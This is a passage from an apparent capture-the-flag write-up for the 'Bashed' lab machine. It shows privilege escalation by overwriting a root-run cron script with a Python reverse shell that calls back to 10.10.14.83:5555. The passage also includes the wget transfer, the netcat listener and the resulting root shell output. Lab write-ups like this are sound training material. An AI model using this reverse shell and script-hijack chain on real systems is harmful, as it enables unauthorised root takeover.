 ```bash
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct 27 07:25 test.txt

scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$
```

One way to replace the contents of the file is to create a local file with the commands we want to execute and then use wget to get this from our local machine. Although we could just read the contents of the root.txt file, its better to get a root shell. To do this, we create a `test.py` file locally with the as shown below. This will use python to create a reverse shell to us on port 5555. 
```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.83",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

For this to execute we can transfer the file by creating a local web server on port 80
```python
python -m http.server 80
```
Then from our reverse shell we can use `wget` to retrieve it and replace the `test.py` with our malicious file. Since the script seems to be running every minute we can also set up our netcat listener on port 5555 so we catch the shell. 

```
# On our local machine we setup the netcat listener
nc -nlvp 5555

# We need to move the test.py file to a backup before copying over the new malicious file
mv test.py test.py.bak

# On the bashed system we copy the test.py file over using wget
wget http://10.10.14.83/test.py 
```
After waiting a few moments we receive the connection as root.
```bash
listening on [any] 5555 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.74.120] 53576
# whoami
whoami
root
# ls -la /root
ls -la /root
total 28
drwx------  3 root root 4096 Oct 27 06:20 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Oct 27 06:20 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
```
# Other Observations
